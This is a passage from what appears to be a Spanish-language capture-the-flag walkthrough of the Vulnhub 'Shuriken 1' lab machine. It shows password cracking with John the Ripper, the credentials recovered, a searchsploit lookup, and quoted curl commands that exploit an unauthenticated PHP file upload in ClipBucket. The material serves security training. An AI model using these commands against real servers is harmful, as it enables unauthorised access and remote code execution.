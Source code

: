 ```bash
> john hash -w=/usr/share/wordlists/rockyou.txt 
Created directory: /home/fafi/.john
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (?)     
1g 0:00:00:07 DONE (2025-02-03 11:16) 0.1428g/s 308736p/s 308736c/s 308736C/s 9991234..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

```bash
============
Credenciales
============

developers:9972761drmfsls
```

## Búsqueda de exploit con searchsploit

![software version](/images/shuriken1vulnhub/softwareversion.png)

```bash
> searchsploit clipbucket 4.0
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload  | php/webapps/44250.txt
ClipBucket < 4.0.0 - Release 4902 - Command Injection / File Upload  | php/webapps/44250.txt
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
> searchsploit -m php/webapps/44250.txt
```

```txt
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"
```
